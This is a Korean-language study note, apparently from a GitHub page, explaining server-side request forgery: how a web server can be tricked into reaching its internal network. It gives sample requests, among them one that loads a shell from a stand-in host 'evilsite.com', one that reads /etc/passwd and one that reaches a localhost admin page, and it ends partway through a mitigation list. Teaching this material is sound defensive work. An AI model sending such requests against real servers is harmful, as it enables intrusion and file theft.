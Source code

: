 물론 공격을 받는 사람에게 웹 애플리케이션에 대한 관리자 권한이 있다면 전체 애플리케이션이 침해될 수 있으므로 CSRF도 위험해질 수 있다. 

반면 SSRF 공격은 중간에 사용자를 개입시킬 필요 없이 웹 서버 자체를 노린다. 공격자는 악성 HTTP 요청을 서버에 보내는 것만으로 백엔드에 지시해 악성 작업을 수행할 수 있다.

- http request 처리되는 순서

![image](https://user-images.githubusercontent.com/62640332/161368300-d4fd123d-e4d7-40f3-87c3-d8cd4fe83701.png)

기본적으로 서비스는 누구나 접속할 수 있는 web server와, 인가된 소수의 인원들만 접속할 수 있는 DB server가 보통 구분되어있습니다.          

위 그림에서 볼 수 있는 것처럼 외부인이 정보를 요구한다면 web server와 db server가 통신을 하여 그 결과, 즉 response를 사용자에게 다시 전달하는 방식으로 이루어집니다.           

이때 SSRF취약점은 web server가 db server와 소통한다는 점에 초점을 둔 취약점            

> 파란색 서버가 web server인 xyz.com이고, 빨간색 서버는 ip가 10.0.0.1인 db서버                

우리가 단순히 자신의 브라우저로 각각 xyz.com과 10.0.0.1에 접속하려고 한다면, xyz.com은 당연히 접근이 가능할 것이고, 10.0.0.1이라는 ip는 접근이 불가능할 것입니다.         

10.0.0.1이라는 ip가 접근이 안되는 이유는 xyz.com의 내부망(intranet)에 연결되어있는 서버이기 때문입니다.             

그러나 다음과 같은 링크를 보내면 내부망에 접속할 수 있습니다.               

```
GET https://xyz.com/id?content=http://10.0.0.1/
```
이런 식으로 요청을 보내면 xyz.com의 입장에서 10.0.0.1에 접근하는 것이기 때문에 외부의 사람도 내부망에 접근할 수 있게 되는 것입니다. 

ㅁ 대표적인 공격

1) RFI

```
GET https://xyz.com/id?content=https://evilsite.com/shell.php
``` 

2) LFI

```
GET https://xyz.com/id?content=file:///etc/passwd
```

3) 비인가 접근

```
GET https://xyz.com/id?content=http://localhost/administrator
```


1. 사용자의 입력값으로 URL을 받아서 처리하는 서비스의 경우 잠재적으로 SSRF 취약점이 존재

2.  Referer 헤더의 링크를 통해서 정보를 수집하고 통계에 이용하는 경우가 있다. Referer 링크에서 요청하고 meta 데이터들을 읽거나 페이지를 읽어서 내부 데이터로 이용하는 경우가 있는데 이 때도 역시 SSRF는 발생 가능하다.

3.  데이터를 XML로 전송할 경우 XXE Inejction을 통해서 SSRF를 트리거할 수도 있다

4.  Open Redirection 취약점이 있을 때 경우에 따라 SSRF를 트리거할 수 있다.

ㅁ 대응방법

1. 입력값을 블랙리스트 방식으로 필터링
